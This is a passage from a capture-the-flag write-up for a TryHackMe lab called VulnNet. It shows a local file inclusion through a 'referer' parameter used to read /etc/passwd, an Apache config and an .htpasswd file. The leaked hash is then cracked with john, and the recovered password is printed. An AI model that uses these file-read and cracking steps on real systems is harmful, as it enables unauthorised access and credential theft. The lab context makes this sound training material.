     mysql:x:112:123:MySQL Server,,,:/nonexistent:/bin/false
    sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
    ```
    
    > **/etc/passwd is a text file in Linux that stores information about the users on the system, such as their login, user ID number, directory.**
    > 
- `view-source:[http://vulnnet.thm/index.php?referer=/etc/apache2/sites-enabled/000-default.conf](http://vulnnet.thm/index.php?referer=/etc/apache2/sites-enabled/000-default.conf)` on this URL we found some cool informations😈
    
    ```html
    <VirtualHost *:80>
    	ServerAdmin webmaster@localhost
    	ServerName vulnnet.thm
    	DocumentRoot /var/www/main
    	ErrorLog ${APACHE_LOG_DIR}/error.log
    	CustomLog ${APACHE_LOG_DIR}/access.log combined
    	<Directory /var/www/main>
    		Order allow,deny
    		allow from all
    	</Directory>
    </VirtualHost>
    
    <VirtualHost *:80>
    	ServerAdmin webmaster@localhost
    	ServerName broadcast.vulnnet.thm
    	DocumentRoot /var/www/html
    	ErrorLog ${APACHE_LOG_DIR}/error.log
    	CustomLog ${APACHE_LOG_DIR}/access.log combined
    	<Directory /var/www/html>
    		Order allow,deny
    		allow from all
    		AuthType Basic
    		AuthName "Restricted Content"
    		AuthUserFile /etc/apache2/.htpasswd
    		Require valid-user
    	</Directory>
    </VirtualHost>
    ```
    
- `**view-source:[http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd](http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd)` on this URL we found usernma with hashed password ⇒ `developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0`**
- **so let’s crack using `john`**
    
    ```html
    ┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
    └─$ echo "developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0" > hash.txt
    
    ┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
    └─$ john --wordlist=/home/nazu/Desktop/Word-List/rockyou.txt hash.txt
    pass => 9972761drmfsls
    user => developers
    ```
    
